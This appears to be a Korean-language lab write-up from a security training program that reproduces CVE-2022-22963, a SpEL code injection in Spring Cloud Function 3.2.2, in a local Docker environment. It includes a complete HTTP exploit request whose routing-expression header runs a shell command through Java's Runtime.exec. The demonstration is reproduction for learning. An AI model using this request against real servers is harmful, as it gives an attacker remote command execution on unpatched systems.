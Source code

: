 
# Spring Cloud Function SpEL 코드 주입 (CVE-2022-22963)

> 화이트햇 스쿨 3기 (33반) - [조민형 (@foskingson)](https://github.com/foskingson)

<br/>

### 📖 **목차**  

1. [요약](#요약)  
2. [취약한 환경 구성](#취약한-환경-구성)  
3. [취약점 재현](#취약점-재현)  
4. [Pull Request 링크](#Pull-Request-링크)  
5. [참고 자료](#참고-자료)  

<br/>

### 📌 **요약**

**Spring Cloud Function**은 AWS Lambda와 같은 **FaaS(Function as a Service)** 플랫폼을 포함하여 다양한 플랫폼에서 함수 기반 소프트웨어를 배포할 수 있도록 지원하는 공통 모델을 제공한다.  
그러나 **Spring Cloud Function 3.2.2 버전**에는 **SpEL(Spring Expression Language)을 통한 코드 주입 취약점**이 존재하며, 이를 악용해 **원격에서 명령어를 실행할 수 있다.**

<br/>

### 🛠️ **취약한 환경 구성**

1. 아래의 **참고자료 1번**을 참고하여 로컬 환경에 `docker-compose.yml` 파일 작성  
2. `docker-compose.yml`이 위치한 경로로 이동  
3. `docker compose up` 명령어를 통해 도커 컨테이너 실행  
   - 이미지가 로컬에 없다면 자동으로 설치됨 (`docker pull`)  
   - `docker compose up --build`를 통해 이미지 새로 빌드 가능  

<p align="center">
  <img src="./1.png" alt="환경 구성" width="700"/>
</p>

<br/>

### 🧪 **취약점 재현**

#### 1. **스프링 서버 정상 실행 확인**

도커 컨테이너 실행 후 아래와 같은 기본 페이지가 나타나면 **정상적으로 서버가 열린 것**이다.

<p align="center">
  <img src="./2.png" alt="스프링 웹서버 기본 화면" width="700"/>
</p>

#### 2. **SpEL 삽입을 통한 명령어 실행**

요청 헤더에 `spring.cloud.function.routing-expression` 값을 통해 **SpEL 표현식을 삽입**하고,  
대상 서버에서 `touch /tmp/success` **명령어를 실행**한다.

- 파이썬 코드로 전송 (`vulhub.py` 참고)  
- 성공 시 `/tmp` 디렉토리에 `success` 파일이 생성됨

```http
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4
```

#### 3. **success 파일 존재 확인**

`docker compose exec spring bash` 명령어로 컨테이너 내부 bash에 접속하여  
`/tmp` 디렉토리에서 `success` 파일을 확인할 수 있다.

- `docker compose exec spring bash`: `spring`이라는 컨테이너 안에서 bash 쉘을 실행하는 명령어

<p align="center">
  <img src="./3.png" alt="공격 성공" width="700"/>
</p>

<br/>

### 📚 **참고 자료**

1. [Vulhub GitHub - CVE-2022-22963 환경 구성](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22963)  
2. [VMware 공식 보안 공지](https://tanzu.vmware.com/security/cve-2022-22963)  
3. [중국 블로그의 공격 예시](https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw)  
4. [Spring Cloud Function 패치 커밋](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f)  
